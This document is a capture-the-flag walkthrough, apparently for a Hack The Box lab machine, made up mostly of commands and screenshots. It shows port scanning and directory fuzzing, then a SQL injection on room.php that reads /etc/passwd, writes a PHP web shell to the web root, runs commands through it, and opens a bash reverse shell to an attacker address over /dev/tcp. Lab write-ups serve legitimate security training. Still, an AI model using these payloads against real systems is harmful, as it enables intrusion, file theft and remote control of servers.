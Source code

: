 ```
SQL injection
```

```
nmap -sS -sC -sV -T5 -Pn 10.10.10.143
```
![image](https://user-images.githubusercontent.com/33616880/231966154-8ab1d289-572e-4097-8072-e2a664de70ca.png)


```
ffuf -w /usr/share/seclists/Discovery/Web-Content/raft-medium-words-lowercase.txt -u http://10.10.10.143/FUZZ -fc 403 -e .aspx,.php,.txt,.html
```
![image](https://user-images.githubusercontent.com/33616880/231966267-6a6058e9-6223-44d8-acd9-72244a55407f.png)


```
http://10.10.10.143/room.php?cod=2
```
![image](https://user-images.githubusercontent.com/33616880/231967239-40ac1ae1-c35f-4c56-9740-62bd236b9436.png)



![image](https://user-images.githubusercontent.com/33616880/231967279-462d7629-3f4f-4f75-bff1-b82ba0cfeb7b.png)

![image](https://user-images.githubusercontent.com/33616880/231967320-8aa8e60a-e6b3-4552-882e-0ad264e09771.png)



![image](https://user-images.githubusercontent.com/33616880/231967993-6a81e947-d988-4e23-9042-a8ba3eb2bca0.png)



![image](https://user-images.githubusercontent.com/33616880/231968678-abdd6033-6a96-45b6-bc8e-0fd5e45791de.png)
![image](https://user-images.githubusercontent.com/33616880/231968797-0152fad4-d673-488d-aff8-4cbd8d10910d.png)
![image](https://user-images.githubusercontent.com/33616880/231968997-2d0da6ba-012b-480d-83b6-8c185543e797.png)


```
http://10.10.10.143/room.php?cod=-1 union select 1,load_file('/etc/passwd'),3,4,5,6,7 into outfile '/var/www/html/hacked.txt'
```
![image](https://user-images.githubusercontent.com/33616880/231969952-3829cca0-1e62-48ed-a680-8e597d111ff8.png)
![image](https://user-images.githubusercontent.com/33616880/231969969-fe7ccd80-1d5e-4185-9c24-377b58bbe4e1.png)


```
http://10.10.10.143/room.php?cod=-1 union select 1,'<?php system($_REQUEST["exec"]);?>',3,4,5,6,7 into outfile '/var/www/html/pwned.php'
curl -X POST http://10.10.10.143/pwned.php --data-urlencode 'exec=whoami'
```
![image](https://user-images.githubusercontent.com/33616880/231971738-3210b286-20ab-471c-8c63-556e238f3523.png)
![image](https://user-images.githubusercontent.com/33616880/231971768-31d1b5c7-93bb-4b3a-8b4e-d648a22900ce.png)


```
curl -X POST http://10.10.10.143/pwned.php --data-urlencode 'exec=bash -c "bash -i >& /dev/tcp/10.10.14.8/1234 0>&1"'
```
![image](https://user-images.githubusercontent.com/33616880/231972202-e13e19ba-e5cd-4ef9-8b24-ed13676f248b.png)
![image](https://user-images.githubusercontent.com/33616880/231972255-3fcdf22f-ef68-4a2a-87b3-c189d8936720.png)




